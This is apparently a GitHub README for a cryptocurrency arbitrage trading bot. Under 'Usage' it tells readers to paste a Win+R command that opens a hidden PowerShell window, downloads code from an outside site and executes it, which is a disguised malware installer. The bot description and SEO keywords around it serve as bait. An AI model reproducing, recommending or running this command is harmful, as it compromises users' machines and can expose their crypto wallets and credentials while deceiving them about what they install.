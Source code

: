 # Arbitrage Trading Bot 🤖💹

## Project Description
**Arbitrage Trading Bot** is an automated trading bot designed to take advantage of price discrepancies across different cryptocurrency exchanges. The bot monitors multiple exchanges in real-time and executes trades to capitalize on arbitrage opportunities.

## Key Features
- **Multi-Exchange Support**: Connects to various cryptocurrency exchanges for arbitrage opportunities.
- **Real-Time Monitoring**: Continuously monitors prices across exchanges to identify profitable trades.
- **Automated Trading**: Executes trades automatically based on predefined strategies and thresholds.
- **Risk Management**: Implements risk management strategies to minimize potential losses.
- **User -Friendly Dashboard**: Provides an intuitive interface for monitoring trades and performance.



## Usage 🚀
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


## Example Strategies 📈
- **Simple Arbitrage**: Buy low on one exchange and sell high on another.
- **Triangular Arbitrage**: Exploit price inefficiencies between three different currencies on the same exchange.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [CoinGecko API Documentation](https://coingecko.com/en/api)

---

**SEO Keywords**: Arbitrage, Trading Bot, cryptocurrency, automated trading, price discrepancy, multi-exchange, trading strategies.

